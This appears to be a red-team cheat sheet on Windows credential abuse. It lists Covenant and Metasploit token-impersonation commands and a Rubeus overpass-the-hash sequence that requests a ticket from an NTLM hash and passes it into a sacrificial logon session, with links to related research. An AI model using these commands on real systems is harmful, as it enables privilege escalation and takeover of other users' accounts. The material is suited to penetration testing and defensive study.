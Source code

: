 # Getting & Using Credentials

### Token Impersonation

#### Covenant

```text
ImpersonateUser <user>
ImpersonateProcess <pid>
RevToSelf
```

#### Metasploit

```text
load incognito
list_tokens -u
impersonate_token <user>
rev2self
```

#### Resources

* [Sandbox-analysis-tools](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases)
* [Roguepotato](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/amp/?__twitter_impression=true)
* [TokenKidnapping](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)

### Creating Tokens

#### Covenant

```text
MakeToken <user> <domain> <password>
```

#### Overpass-the-Hash

Create ticket for user:

```text
Rubeus triage
Rubeus asktgt /user:<user> /rc4:<user ntlm hash>
```

Get the base64 ticket from Rubeus output and clean it up. You can only have one TGT per logon session so the correct way is to create \*sacrificial\* logon session and apply the ticket there:

```text
MakeToken <user> <domain> <anything>
Rubeus triage
Rubeus ptt /ticket:<ticket>
Rubeus triage
RevToSelf
```

